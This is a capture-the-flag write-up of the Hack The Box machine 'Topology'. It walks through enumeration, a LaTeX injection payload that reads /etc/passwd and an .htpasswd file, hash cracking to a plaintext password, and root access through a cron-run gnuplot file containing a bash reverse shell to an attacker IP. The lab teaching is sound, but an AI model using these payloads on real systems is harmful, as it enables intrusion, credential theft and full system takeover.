 # HTB - Topology

#### Ip: 10.129.158.218
#### Name: Topology
#### Rating: Easy

------------------------------------------------

![Topology.png](../assets/topology_assets/Topology.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 5000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ sudo nmap -p- --min-rate 5000 -sC -sV 10.129.158.218
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-27 16:02 CST
Nmap scan report for 10.129.158.218
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.63 seconds
```

Looking at the site we find a page for a university mathematics department:

![htb_topology_site.png](../assets/topology_assets/htb_topology_site.png)

The site has a link for "LaTeX Equation Generator - create .PNGs of LaTeX equations in your browser" which attempts to forward to latex.topology.htb, so let's add that to `/etc/hosts`.

Let's also scan for more VHOSTS before enumerating this further:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ffuf -u http://topology.htb -H 'HOST: FUZZ.topology.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 1612 -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 1612
________________________________________________

[Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 76ms]
    * FUZZ: dev

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 73ms]
    * FUZZ: stats
```

Cool, two more VHOSTS, let's add these to `/etc/hosts` as well.

The dev page requires authentication, which we don't have yet, and the stats page seems to just offer server load stats, with no real information.

Now visiting the Latex site we find a LaTex Equation Generator:

![htb_topology_latex.png](../assets/topology_assets/htb_topology_latex.png)

Entering one of the site's examples we find:

![htb_topology_example.png](../assets/topology_assets/htb_topology_example.png)

Looking at the webpage root we find a few files we can download:

![htb_topology_index.png](../assets/topology_assets/htb_topology_index.png)

Checking out the header.tex file we find the site is using listings, which may give us access to other files:

![htb_topology_header.png](../assets/topology_assets/htb_topology_header.png)

### Exploitation

Researching more about this I find: https://ctan.org/pkg/listings?lang=en which mentions using `\lstinputlisting` for file reads.

But trying something like: `\lstinputlisting[/etc/passwd` continues to fail.

Heading over to trusty HackTricks and looking up LaTex injection we find a helpful note:

```
You might need to adjust injection with wrappers as [ or $.
```

So with these we can now wrap our command in `$` symbols like: `$\lstinputlisting{/etc/passwd}$` and successfully read the file:

![htb_topology_etc.png](../assets/topology_assets/htb_topology_etc.png)

Searching for interesting files, I finally find an `.htpasswd` file for the dev site discovered earlier:

![htb_topology_hash.png](../assets/topology_assets/htb_topology_hash.png)

Let's crack this using Hashcat:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 1403/2870 MB (512 MB allocatable), 1MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

<SNIP>

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
```

Cool, we now have the credentials `vdaisley:calculus20`

We can use this to SSH in and grab the user.txt flag:

```
┌──(ryan㉿kali)-[~/HTB/Topology]
└─$ ssh vdaisley@10.129.158.218
```

![htb_topology_user.png](../assets/topology_assets/htb_topology_user.png)

### Privilege Escalation

Poking around the box we find a directory called gnuplot in `/opt`:

```
vdaisley@topology:~$ cd /opt
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ file gnuplot/
gnuplot/: directory
vdaisley@topology:/opt$ cd gnuplot/
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
```

According to http://www.gnuplot.info/:

```
Gnuplot is a portable command-line driven graphing utility for Linux, Windows, macOS, OS/2, VMS, and other platforms.
```

Loading Pspy64 to the target to view running cronjobs, we see several jobs run by root coming out of the gnuplot directory:

![htb_topology_cron.png](../assets/topology_assets/htb_topology_cron.png)


I'm particularly interested in the following cronjob:

```
/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
```

This folder is interesting because while we can't list files, we can write to it:

```
vdaisley@topology:/opt/gnuplot$ ls
ls: cannot open directory '.': Permission denied
vdaisley@topology:/opt/gnuplot$ touch test.txt
vdaisley@topology:/opt/gnuplot$ echo "hi" > test.txt
vdaisley@topology:/opt/gnuplot$ cat test.txt
hi
vdaisley@topology:/opt/gnuplot$ ls -la
ls: cannot open directory '.': Permission denied
```

So because the cronjob above is using wildcards and executing with gnuplot any `.plt` files, let's create one called shell.plt which will be executed with root permissions when the job runs:

```
system "bash -c 'bash -i >& /dev/tcp/10.10.14.162/443 0>&1'"
```

![htb_topology_shell.png](../assets/topology_assets/htb_topology_shell.png)

Nice, we can now grab the final flag:

![htb_topology_root.png](../assets/topology_assets/htb_topology_root.png)

Thanks for following along!

-Ryan

-----------------------------------------
